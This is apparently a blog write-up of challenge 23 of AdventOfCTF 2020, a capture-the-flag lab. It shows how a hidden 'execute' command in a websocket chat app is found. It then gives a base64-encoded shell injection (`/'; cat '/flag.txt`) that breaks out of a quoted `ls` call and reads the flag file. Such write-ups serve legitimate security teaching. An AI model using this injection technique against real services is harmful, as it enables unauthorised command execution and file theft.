+++
author = "Maik de Kruif"
title = "IRC"
subtitle = "Challenge 23 - AdventOfCTF"
date = 2021-03-16T20:52:38+01:00
description = "A writeup for challenge 23 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/497784f7a3314f8aa5b8464432e30bbe.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "websockets",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
aliases = [
    "challenge_23"
]
+++

- Points: 2300

## Description

If all you do is talk, there are bound to be secret features. The flag is stored in /flag.txt.

Visit <https://23.adventofctf.com> to start the challenge.

## Recon

When opening the page, we're greeted with, what looks like, a chat screen. If we type a message in the message box and send it, it appears on the screen.

If we take a look at the source, we also find a bit of javascript:

```js
$(function () {
  var socket = io();
  $("form").submit(function () {
    socket.emit("chat message", { message: $("#m").val() });
    $("#m").val("");
    return false;
  });
  socket.on("chat message", function (msg) {
    console.log(msg.command);
    if (msg.command === "code") {
      $("#messages").append($("<li>").html("<pre>" + msg.message + "</pre>"));
    } else {
      $("#messages").append($("<li>").text(msg.message));
    }
    window.scrollTo(0, document.body.scrollHeight);
  });
});
```

## Finding the vulnerability

From the JavaScript code we can see that the chat uses WebSockets. To take a deeper look at it, let's switch over to the network tab in Chrome and click on the request with the type "websocket".

{{< figure src="/img/writeups/adventofctf/2020/23/websocket.png" title="Websocket in Chrome DevTools" >}}

If we click on it, a tab with the messages sent on the websocket will open. We can see some numbers here, these are just heartbeat packets to keep the connection alive. Now, let's send a new message and have a look at what it actually sends/receives.

After sending the message, the following entries are added to the websocket message list.

```js
⬆42["chat message", {message: "Hi"}]
⬇42["chat message", {message: "Hi"}]
```

We can see the message contains two parts; the event name and the message itself. We also only see a message variable, while in the javascript code we also saw it looked for a `"command"`. Let's try to manually add it to the message.

### Manually sending a message

In Chrome (to my knowledge) we can't easily send a message on a websocket. We could use Burp Suit to do it but for this writeup I'll stick with Chrome. To send a message on the websocket, we need the `socket` variable from the javascript code. To get it, go to the `Sources` tab and click on `(index)`. Now click on line number 28 to add a breakpoint there. We choose this place as it will trigger a breakpoint just before a message gets sent and we thus have access to the socket variable.

{{< figure src="/img/writeups/adventofctf/2020/23/breakpoint.png" title="Javascipt breakpoint in Chrome" >}}

Now if we try to send a message, chrome will pause the page. The console will now also have the scope of the piece of code at the breakpoint. This means that if we enter `socket` in the console, will get the socket object back:

```js
> socket
< Socket {receiveBuffer: Array(0), sendBuffer: Array(0), ids: 0, acks: {…}, flags: {…}, …}
```

Let's save this object to the global scope so we can always access it. To do this, let's enter the following code in the console:

```js
window.socket = socket;
```

We can then click the continue button or press `F8` to continue the script. To verify we still have access to the socket, we can try to send a message using the console. I used the following code for this:

```js
socket.emit("chat message", { message: "Hello" });
```

After running this, we also see the message pop up in the chat window.

### Sending a command

Because the code tries to read `msg.command`, let's try adding a command to the message. We can do that using the following code:

```js
socket.emit("chat message", {
  message: "Hello",
  command: "ls",
});
```

As we expect from the code, `"ls"` is printed to the console but nothing else seems to happen. Maybe the command does not exist, let's try the common `help` command.

```js
socket.emit("chat message", { message: "Hello", command: "help" });
```

This time it returns a different message: "Allowed message types are: help, execute and empty".

## Exploit

The `execute` command looks interesting, so let's take a further look at it.

```js
socket.emit("chat message", { message: "Hello", command: "execute" });
```

Upon sending it, the server returns "Invalid BASE64". This probably means it is trying to read base64 encoded data. But from where? Let's try replacing the message with a base64 encoded command.

```bash
> echo -n "ls" | base64 -w 0
bHM=⏎
```

```js
socket.emit("chat message", { message: "bHM=", command: "execute" });
```

This time we got a different result:

```text
ERR: Error: Command failed: /bin/ls 'ls'
ls: ls: No such file or directory
```

This means the backend is trying to list the contents of "ls", let's try again with a `/` as the message:

```bash
> echo -n "/" | base64 -w 0
Lw==⏎
```

```js
socket.emit("chat message", { message: "Lw==", command: "execute" });
```

This returns the following:

```text
STDOUT: apps
bin
dev
etc
flag.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

The only thing left is reading the `flag.txt` file. From the ls error we know the backend executes the following: `/bin/ls '[MESSAGE]'`. This means we have to construct a command that works around the quotes around our input. An example for the input would be `/'; cat '/flag.txt` as this makes the command become the following:

```bash
/bin/ls '/'; cat '/flag.txt'
```

Let's try that.

```bash
> echo -n "/'; cat '/flag.txt" | base64 -w 0
Lyc7IGNhdCAnL2ZsYWcudHh0⏎
```

```js
socket.emit("chat message", {
  message: "Lyc7IGNhdCAnL2ZsYWcudHh0",
  command: "execute",
});
```

This will give us the following output:

```text
STDOUT: apps
bin
dev
etc
flag.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
NOVI{i_hacked_websockets_and_1_am_still_s@ne}
```

## Solution

We got the flag! It is `NOVI{i_hacked_websockets_and_1_am_still_s@ne}`.
